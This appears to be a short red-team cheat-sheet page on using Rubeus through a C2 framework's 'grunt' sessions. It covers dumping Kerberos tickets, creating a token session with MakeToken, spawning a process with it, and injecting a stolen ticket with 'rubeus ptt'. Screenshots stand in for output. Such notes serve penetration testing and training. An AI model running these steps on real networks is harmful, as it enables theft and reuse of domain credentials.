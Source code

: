 # Rubeus

## Rubeus

### Pass the Ticket

#### - Show all session tickets

```text
Rubeus triage
```

![](../../../../.gitbook/assets/image%20%283%29.png)

#### - Dump the tickets

```text
Rubeus dump
```

![](../../../../.gitbook/assets/image%20%28103%29.png)

#### Loot are available in Data pane:

![](../../../../.gitbook/assets/image%20%28275%29.png)

#### Copy the base64 ticket \(bug from data interface, copy the interactive window\)

![](../../../../.gitbook/assets/image%20%28311%29.png)

#### Create a new session using MakeToken

```text
MakeToken help

[!] Usage: MakeToken <username> <domain> <password>[ <logontype> ]
```

![](../../../../.gitbook/assets/image%20%28272%29.png)

#### Create a new grunt session 

```text
CreateProcessWithToken

[!] Usage: CreateProcessWithToken <command>[ <path> ]
```

![](../../../../.gitbook/assets/image%20%28101%29.png)

#### Pass the ticket

```text
rubeus ptt /ticket:
```

![](../../../../.gitbook/assets/image%20%28260%29.png)

![](../../../../.gitbook/assets/image.png)

#### cifs ticket injected 

![](../../../../.gitbook/assets/image%20%28126%29.png)

### 

